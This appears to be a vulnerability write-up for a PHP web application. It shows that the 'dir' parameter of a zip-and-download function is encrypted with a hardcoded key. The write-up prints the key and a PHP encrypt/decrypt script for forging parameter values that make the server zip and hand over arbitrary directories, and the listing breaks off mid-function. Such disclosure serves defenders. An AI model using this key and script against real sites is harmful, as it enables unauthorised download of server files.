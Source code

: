 # Code Analysis

![image](https://github.com/user-attachments/assets/2219c06e-01b1-4f82-9810-b26567e59536)

The dir in the zip function is the relevant parameter passed after encryption. When followed up in the sys_auth function, it can be found that the encrypted key is fixed!

![image](https://github.com/user-attachments/assets/52bb7afd-a5a9-4b15-acf9-a4a910a93e16)

<img width="776" alt="image" src="https://github.com/user-attachments/assets/243f6e61-5737-4e8a-bc9e-b7d23825bcab" />

After that, perform the relevant decryption. After decryption, determine whether the directory corresponding to the dir parameter value is empty. If it is not empty, directly zip it and download the compressed file!

Re-encrypt and decrypt the script:

```
<?php
define('Mc_Encryption_Key','9LneByFjWQUYozg');
function sys_auth($string, $type = 0, $key = '', $expiry = 0) {
    
    if(is_array($string)) $string = json_encode($string);
	if($type == 1) $string = str_replace('-','+',$string);
	$ckey_length = 4;
	$key = md5($key ? $key : Mc_Encryption_Key);
	$keya = md5(substr($key, 0, 16));
	$keyb = md5(substr($key, 16, 16));
	$keyc = $ckey_length ? ($type == 1 ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
	$cryptkey = $keya.md5($keya.$keyc);
	$key_length = strlen($cryptkey);
	$string = $type == 1 ? base64_decode(substr($string, $ckey_length)) :  sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
	$string_length = strlen($string);
	$result = '';
	$box = range(0, 255);
	$rndkey = array();
	for($i = 0; $i <= 255; $i++) {
		$rndkey[$i] = ord($cryptkey[$i % $key_length]);
	}
	for($j = $i = 0; $i < 256; $i++) {
		$j = ($j + $box[$i] + $rndkey[$i]) % 256;
		$tmp = $box[$i];
		$box[$i] = $box[$j];
		$box[$j] = $tmp;
	}
	for($a = $j = $i = 0; $i < $string_length; $i++) {
		$a = ($a + 1) % 256;
		$j = ($j + $box[$a]) % 256;
		$tmp = $box[$a];
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
	} 
	if($type == 1) {
		if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
			$result = substr($result, 26);
			$json = json_decode($result,1);
			if(!is_numeric($result) && $json){
				return $json;
			}else{
```
